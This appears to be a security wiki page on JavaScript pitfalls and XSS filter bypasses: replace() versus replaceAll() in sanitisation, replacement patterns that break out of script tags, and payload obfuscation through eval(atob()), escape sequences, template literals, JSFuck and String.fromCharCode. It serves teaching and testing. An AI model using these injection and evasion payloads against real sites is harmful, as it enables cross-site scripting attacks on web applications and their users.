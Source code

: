 ```yaml
---
description: >-
  A very popular language used to create interactivity on the web, and on the
  backend using NodeJS
---
```


# JavaScript

{% content-ref url="../web/web-frameworks/nodejs.md" %}
[nodejs.md](../web/web-frameworks/nodejs.md)
{% endcontent-ref %}

## Common Issues

### String Replacement

#### `replace` vs `replaceAll`

You might be surprised to see that `replace()` doesn't actually replace all the characters it finds, only the _first_ match. Instead, `replaceAll()` should be used if you want to replace _every_ occurrence. This can be useful if a developer thinks they sanitized user input with this function, and tested it with only one character, while an attacker can just input one dummy character at the start that will be replaced and afterward continue with the payload unsanitized:

<pre class="language-javascript"><code class="lang-javascript"><strong>> 'AAAA'.replace('A', 'B')
</strong>'BAAA'
<strong>> 'AAAA'.replaceAll('A', 'B')
</strong>'BBBB'
// Seems "safe"
<strong>> '&#x3C;svg onload=alert()>'.replace('&#x3C;', '&#x26;lt;').replace('>', '&#x26;gt;')
</strong>'&#x26;lt;svg onload=alert()&#x26;gt;'
// Expoitable with multiple characters
<strong>> '&#x3C;>&#x3C;svg onload=alert()>'.replace('&#x3C;', '&#x26;lt;').replace('>', '&#x26;gt;')
</strong>'&#x26;lt;&#x26;gt;&#x3C;svg onload=alert()>'
</code></pre>

#### Replacement String Templates

The second argument to `replace()` functions determine what should be put in place of the matched part. It might come as a surprise that when this section is user-controlled input, there are some special character sequences that are not taken literally. The following sequences insert a special piece of text instead ([source](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/String/replace#specifying\_a\_string\_as\_the\_replacement)):

<table><thead><tr><th width="276">Pattern</th><th>Inserts</th></tr></thead><tbody><tr><td><code>$$</code></td><td>Inserts a <code>"$"</code> (escape sequence)</td></tr><tr><td><code>$&#x26;</code></td><td>Inserts the matched substring</td></tr><tr><td><code>$`</code></td><td>Inserts the portion of the string that <em><strong>precedes</strong></em> the matched substring</td></tr><tr><td><code>$'</code></td><td>Inserts the portion of the string that <em><strong>follows</strong></em> the matched substring</td></tr><tr><td><code>$n</code> (RegExp only)</td><td>Inserts the <code>n</code>th (<code>1</code>-indexed) capturing group where <code>n</code> is a positive integer less than 100</td></tr><tr><td><code>$&#x3C;name></code> (RegExp only)</td><td>Inserts the named capturing group where <code>name</code> is the group name</td></tr></tbody></table>

The `` $` `` and `$'` are especially interesting, as they repeat a preceding or following piece of text, which may contain **otherwise blocked characters**. A neat trick using mentioned [here](https://security.stackexchange.com/a/198461/267531) abuses this to repeat a `</script>` string that would normally be HTML encoded in the payload:

{% code title="Intended functionality" %}
```javascript
payload = "alert()//"  // Naive attempt, will be quoted
payload = "</script><script>alert()//"  // Try to escape tag, will be encoded

encoded = JSON.stringify(payload.replaceAll('<', '&lt;').replaceAll('>', '&gt;'))
'<script>let a = REPLACE_ME</script>'.replace("REPLACE_ME", encoded)
```
{% endcode %}

```html
<script>let a = "alert()//"</script>
<script>let a = "&lt;/script&gt;&lt;script&gt;alert()//"</script>
```

{% code title="Exploit" %}
```javascript
payload = "$'$`alert()//"  // Insert '</script>' following, and '<script>' preceding
```
{% endcode %}

```html
<script>let a = "</script><script>let a = alert()//"</script>
```

## Filter Bypass

Often alphanumeric characters are allowed in a filter, so being able to decode Base64 and evaluate the result should be enough to do anything while bypassing a filter. Acquiring the primitives to do this decoding and evaluating however can be the difficult part as certain ways of calling the functions are blocked. The simplest idea is using `atob` to decode Base64, and then `eval` to evaluate the string:

<pre class="language-javascript"><code class="lang-javascript"><strong>> btoa("alert()")  // Encoding
</strong>'YWxlcnQoKQ=='
<strong>> atob("YWxlcnQoKQ")  // Decoding
</strong>'alert()'

<strong>eval(atob("YWxlcnQoKQ"))  // Obfuscated payload
</strong></code></pre>

### Inside a String

When injecting inside of a JavaScript string (using `"` or `'` quotes), you may be able to escape certain blocked characters using the following escape sequences with different properties:

* `\x41` = `'A'`: Hex escape, shortest! ([CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Hex\('None',0\)Find\_/\_Replace\(%7B'option':'Regex','string':'..'%7D,'%5C%5Cx$%26',true,false,true,false\)\&input=YWxlcnQoKQ))
* `\u0041` = `'A'`: Unicode escape, non-ASCII characters too! ([CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Hex\('None',0\)Find\_/\_Replace\(%7B'option':'Regex','string':'..'%7D,'%5C%5Cu00$%26',true,false,true,false\)\&input=YWxlcnQoKQ))
* `\101` = `'A'`: Octal escapes, numeric-only payload! ([CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Octal\('Space'\)Find\_/\_Replace\(%7B'option':'Regex','string':'.\*'%7D,'%20$%26',false,false,true,true\)Find\_/\_Replace\(%7B'option':'Regex','string':'%20\(%5C%5Cd%2B\)'%7D,'%5C%5C%5C%5C$1',true,false,true,false\)\&input=YWxlcnQoKQ))

Other than these generic escapes, there are a few special characters that get their own escapes:

<table><thead><tr><th width="134" align="right">Syntax</th><th>Meaning</th></tr></thead><tbody><tr><td align="right"><code>\\</code></td><td>Backslash</td></tr><tr><td align="right"><code>\'</code></td><td>Single quote</td></tr><tr><td align="right"><code>\"</code></td><td>Double quote</td></tr><tr><td align="right"><code>\`</code></td><td>Backtick</td></tr><tr><td align="right">(0x0a) <code>\n</code></td><td>New Line</td></tr><tr><td align="right">(0x0d) <code>\r</code></td><td>Carriage Return</td></tr><tr><td align="right">(0x09) <code>\t</code></td><td>Horizontal Tab</td></tr><tr><td align="right">(0x0b) <code>\v</code></td><td>Vertical Tab</td></tr><tr><td align="right">(0x08) <code>\b</code></td><td>Backspace</td></tr><tr><td align="right">(0x0c) <code>\f</code></td><td>Form Feed</td></tr></tbody></table>

When inside [template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template\_literals) (using `` ` `` backticks), you can use `${}` expressions to evaluate inline JavaScript code which may contain any code you want to run, or evaluate to any string you need.&#x20;

```javascript
`${alert()}`
`${String.fromCharCode(97,110,121,116,104,105,110,103)}` -> 'anything'
```

{% hint style="info" %}
Unrelated to strings, you can also use these templates as "[tagged templates](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template\_literals#tagged\_templates)" to call functions without parentheses:

```javascript
alert``
```
{% endhint %}

### No alphanumeric characters

{% embed url="https://jsfuck.com/" %}
An encoder that can create self-executing JavaScript code with only 6 special characters
{% endembed %}

### Without `"` quotes

`RegExp` objects can be defined by surrounding text with `/` slashes, and are automatically coerced into a string surrounded by slashes again. This can become valid executable JavaScript code in a few different ways:

<pre class="language-javascript"><code class="lang-javascript"><strong>eval(1+/1,alert(),1/+1)  // Use numbers to turn '/' into a divide
</strong>1/1,alert(),1/1

<strong>eval(unescape(/%2f%0aalert()%2f/))  // Use unescape() with URL encoding and newlines
</strong>//
alert()//

<strong>eval(/alert()/.source)  // Use .source to extract the inner text of RegExp
</strong>alert()
</code></pre>

Another common method is using `String.fromCharCode()` chains to build out string character-by-character:

{% code title="Python" %}
```python
>>> f"String.fromCharCode({','.join(str(ord(c)) for c in 'alert()')})"
'String.fromCharCode(97,108,101,114,116,40,41)'
```
{% endcode %}

<pre class="language-javascript"><code class="lang-javascript"><strong>eval(String.fromCharCode(97,108,101,114,116,40,41))
</strong>alert()
</code></pre>

### Comments

A few different and uncommon ways of creating comments in JavaScript:

```javascript
alert()//Regular comment

alert()/*multiline
comment*/alert()

alert()<!--HTML comment

#!shebang comment (start of line only)

-->HTML comment (start of line only)
```

